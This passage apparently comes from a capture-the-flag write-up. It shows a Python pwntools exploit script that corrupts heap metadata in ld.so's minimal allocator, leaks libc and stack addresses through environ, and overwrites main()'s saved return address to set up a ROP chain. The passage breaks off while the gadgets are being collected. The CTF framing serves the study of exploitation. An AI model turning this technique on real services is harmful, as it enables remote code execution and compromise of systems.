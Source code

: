 ```python
def run(libc):
 r = remote(HOST, PORT)

 # Corrupt size of next allocation
 new(r, b'xx=x=AAAAA')

 # Broken size: 0x4141 instead of 0x0
 new(r)

 # Leak addr of libc's _nl_global_locale (somehow in memory of ld.so)
 leak = get_leak(r, 0, 4929, 0)
 if not leak or leak & 0x700000000000 != 0x700000000000:
  r.close()
  return False

 libc.address = leak - 0x21b580
 log.success('Leak: 0x%x', leak)
 log.info('=> libc @ 0x%x', libc.address)
 log.info('=> environ @ 0x%x', libc.sym.environ)

 # Allocate new objects and set properties large enough to exhaust the first
 # mmap and warrant a new mmap when reallocating.
 new(r, b'x=' + b'A' * 0xfef)
 new(r, b'x=' + b'A' * 0xfef)

 # Use up almost all the space of this second mmap
 new(r, b'x=' + b'A' * 0xfb0)
 new(r, b'x=' + b'A' * 0xfc0)

 # Now allocate two small objects one after the other: overflow on the first
 # one to corrupt the size of the second one, then use the second one to
 # easily corrupt the ->next of the very first object (sitting at the start
 # of the next mmap'd page). This could be done in a variety of ways, even
 # with just one object...
 new(r, b'xx=x=AAAAA')
 new(r)

 # Set ->next of last list obj to environ, so that we can query its size to
 # leak the stack (the ptr to the first env var)
 write_data(r, b'A' * 0x10 + p64(0x1337) + p64(libc.sym.environ))

 stack_addr   = getobjsize(r, 8)
 main_retaddr = stack_addr - 0x120
 buf_addr     = main_retaddr - 0x100

 log.success('Stack leak: 0x%x', stack_addr)
 log.info('=> main() ret addr @ 0x%x', main_retaddr)

 # Point ->next of last list obj on the stack slightly before the saved main
 # retaddr, the size should be a huge value so we can edit (setprops) easily
 write_data(r, b'A' * 0x10 + p64(0x1337) + p64(main_retaddr - 0x18))

 # Now we can pop everything from the list, then edit to write to the stack
 for _ in range(8):
  delobj(r, 0)

 rop = ROP(libc, badchars='\n;=')
 pop_rax = rop.find_gadget(['pop rax', 'ret']).address
 pop_rdi = rop.find_gadget(['pop rdi', 'ret']).address
 pop_rsi = rop.find_gadget(['pop rsi', 'ret']).address
 pop_rdx = rop.find_gadget(['pop rdx', 'pop rbx', 'ret']).address
 syscall = rop.find_gadget(['syscall', 'ret']).address

```

[dl-minimal-malloc]: https://elixir.bootlin.com/glibc/glibc-2.39/source/elf/dl-minimal-malloc.c